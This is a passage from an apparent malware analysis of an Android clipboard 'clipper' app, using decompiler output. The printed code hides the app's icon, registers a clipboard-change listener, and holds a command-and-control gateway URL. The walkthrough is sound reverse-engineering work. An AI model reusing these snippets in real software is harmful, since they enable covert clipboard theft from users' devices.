 and erases the application's icon

```java
this.getPackageManager().setComponentEnabledSetting(new android.content.ComponentName(this, clipper.abcchannelmc.ru.clipperreborn.MainActivity), 2, 1);
```

We inspect the ClipboardService. A listener is added and will be called each time the clipboard changes.

```
In [5]: d.CLASS_Lclipper_abcchannelmc_ru_clipperreborn_ClipboardService.METHOD_onCreate.source()
public void onCreate()
    {
        super.onCreate();
        this.mClipboardManager = ((android.content.ClipboardManager) this.getSystemService("clipboard"));
        this.mClipboardManager.addPrimaryClipChangedListener(this.mOnPrimaryClipChangedListener);
        return;
    }
```

The field `this.mOnPrimaryClipChangedListener` is used in 3 functions. 

```
In [6]: d.CLASS_Lclipper_abcchannelmc_ru_clipperreborn_ClipboardService.FIELD_mOnPrimaryClipChangedListener.show_dref()
########## DREF
R: Lclipper/abcchannelmc/ru/clipperreborn/ClipboardService; onCreate ()V 1e
R: Lclipper/abcchannelmc/ru/clipperreborn/ClipboardService; onDestroy ()V 12
W: Lclipper/abcchannelmc/ru/clipperreborn/ClipboardService; <init> ()V 20
####################
```

It's in the `init` (constructor) that the listener is instantiated:

```
In [7]: d.CLASS_Lclipper_abcchannelmc_ru_clipperreborn_ClipboardService.METHOD_init.source()
public ClipboardService()
    {
        this.w = "";
        this.gate = "http://fastfrmt.beget.tech/clipper/gateway/";
        this.mOnPrimaryClipChangedListener = new clipper.abcchannelmc.ru.clipperreborn.ClipboardService$3(this);
        return;
    }
 d.CLASS_Lclipper_abcchannelmc_ru_clipperreborn_ClipboardService_3.METHOD_onPrimaryClipChanged.source()
public void onPrimaryClipChanged()
    {
        clipper.abcchannelmc.ru.clipperreborn.ClipboardService v0_3 = clipper.abcchannelmc.ru.clipperreborn.ClipboardService.access$100(this.this$0).getText().toString();
        if (!v0_3.equals(clipper.abcchannelmc.ru.clipperreborn.ClipboardService.access$000(this.this$0))) {
            android.util.Log.d("Clipper", "Copied");
            String v1_5 = v0_3.substring(0, 1);
            int v3_1 = new StringBuilder();
            v3_1.append(v0_3);
            v3_1.append(" | ");
...
```
